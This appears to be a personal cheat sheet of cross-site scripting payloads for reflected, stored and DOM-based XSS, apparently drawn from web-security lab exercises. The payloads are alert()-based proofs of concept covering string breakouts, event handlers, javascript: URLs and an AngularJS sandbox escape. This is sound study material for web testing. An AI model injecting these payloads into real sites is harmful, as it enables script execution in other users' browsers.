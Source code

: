 # **<a name="xss">XSS Table of Contents</a>**

# Reflected **<a name="xss">Web Application table of Contents</a>**
`GET /?search=<script>alert(1)</script> HTTP/1.1`

### escape script and backslash

`</script><img src=1 onerror=alert(document.domain)>`

`</script><script>alert(1)</script>`

### Brak out of javascript string

`'-alert(document.domain)-'`

`'+alert(document.domain)+'`

`';alert(document.domain)//`

`http://foo?&apos;-alert(1)-&apos;`

`${alert(document.domain)}`

`javascript:"/*'/*'/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>`


# Stored

Enter the following into the comment box

`<script>alert(1)</script>`

`"onmouseover="alert(1)`

Inserted in GET/POST request

`<a id="author" href="javascript:alert(document.domain)">test</a>`

# DOM XSS

If you search 5333 in search bar

in javascript function calls 

                        function trackSearch(query) 
                        {document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');}
                        var query = (new URLSearchParams(window.location.search)).get('search');
                        if(query){trackSearch(query);}
                    
                        <img src="/resources/images/tracker.gif?searchTerms=5333">
                        
                        
search for 

` "><svg onload=alert(1)>`

this will break out new paramiter in javascript

 Document sink
 
 `name=<img+src+onerror=alert(1)>`
 
 Location sink
 
 `redir=javascript:alert(1)`
 
 `&storeId="></select><img+src%3d1+onerror%3dalert(1)>`
 
  Execution sink eval call error
  
  `index=alert(1)`
  
  angular js sink
  
  `{{$on.constructor('alert(1)')()}}`
 
 
